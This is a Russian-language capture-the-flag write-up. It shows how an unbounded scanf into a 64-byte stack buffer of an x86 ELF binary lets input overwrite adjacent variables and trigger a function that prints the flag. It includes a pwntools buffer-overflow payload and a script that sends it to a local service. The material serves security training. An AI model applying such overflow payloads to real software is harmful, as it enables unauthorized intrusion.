 # Writeup
У нас есть исходный elf файл. Емли открыть его в ida, мы увидим следующую картину 

![](screenshot/1.png)

![](screenshot/3.png)

Здесь мы видим функция `scanf`, которая считывая данные в пременную `v1`, являющуюся `char` буффером . Если взглянуть в функцию `win`, можно убедится что эта функция выведет флаг, но как нам изменить значение флагов?


![](screenshot/4.png)


### Написение payload

Стоит обратить внимание на функцию `scanf` . Если прочитать ее описание, можно понять, что флаг который она использует, считывает все данные без контроля колличества ввода. Таким образом моно перезаписать данные в переменный `v2` и `v3` . Но если с с v3 все просто, и достаточно ввети символ @ что бы получить число 64(см. ASCII Table), то с 21 такой фокус не прокатит. Поэтому нужно использовать библиотеку `pwntools`на python

```python3
payload = b"A" * 64 + p32(21)  + p32(64)  
```

Эта команда позволит нам передать нужные нам данные. p32 используется потому, что файл скомпилирован под x86 архитектуру , и использует соотвествующие адреса. Весь код, с учетом передачи данных по nc будет выглядеть так

```python3
#!/usr/bin/env python3
from pwn import *

payload = b"A" * 64 + p32(21)  + p32(64)  

host, port = "localhost", 1234

p = remote(host, port)
log.info(p.recvS())         
p.sendline(payload)         
log.success(p.recvallS())   
p.close()
```

Остается только запустить

![](screenshot/5.png)

